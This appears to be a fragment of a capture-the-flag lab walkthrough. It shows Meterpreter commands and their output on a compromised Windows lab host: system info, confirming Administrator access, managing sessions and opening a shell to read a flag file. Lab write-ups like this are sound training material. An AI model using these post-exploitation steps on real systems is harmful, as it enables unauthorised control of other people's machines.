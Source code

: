 ```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

```bash
background
sessions -n target-2 -i 2
```

![](.gitbook/assets/image-20230420001830582.png)

```
sessions 2
shell
cd /
type flag.txt
```



<details><summary>Reveal Flag: 🚩</summary></details>



------

